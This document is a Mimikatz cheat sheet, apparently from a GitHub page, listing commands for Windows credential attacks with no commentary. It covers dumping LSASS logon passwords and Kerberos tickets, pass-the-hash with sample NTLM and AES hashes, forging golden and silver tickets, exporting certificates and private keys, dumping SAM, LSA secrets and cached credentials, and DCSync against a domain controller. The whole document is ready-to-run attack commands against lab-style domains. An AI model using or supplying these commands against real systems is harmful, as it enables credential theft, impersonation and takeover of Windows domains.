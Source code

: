 ```ps
#general
privilege::debug
log
log customlogfilename.log


#sekurlsa
sekurlsa::logonpasswords
sekurlsa::logonPasswords full
sekurlsa::tickets /export
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd

#kerberos
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi

#crypto
crypto::capi
crypto::cng
crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE
crypto::keys /export
crypto::keys /machine /export

#vault & lsadump
vault::cred
vault::list
token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert
lsadump::dcsync /user:domain\krbtgt /domain:lab.local

#pth
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a
sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

#ekeys
sekurlsa::ekeys

#dpapi
sekurlsa::dpapi

#minidump
sekurlsa::minidump lsass.dmp

#ptt
kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi

#golden/silver
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
```